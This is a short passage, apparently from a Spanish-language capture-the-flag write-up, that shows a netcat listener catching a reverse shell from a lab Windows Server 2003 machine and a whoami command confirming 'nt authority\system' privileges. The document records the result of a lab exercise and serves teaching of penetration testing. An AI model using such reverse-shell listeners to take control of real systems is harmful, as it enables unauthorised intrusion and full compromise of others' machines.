 Nos convertimos en `nt authority\system`

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.234] 1106
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```
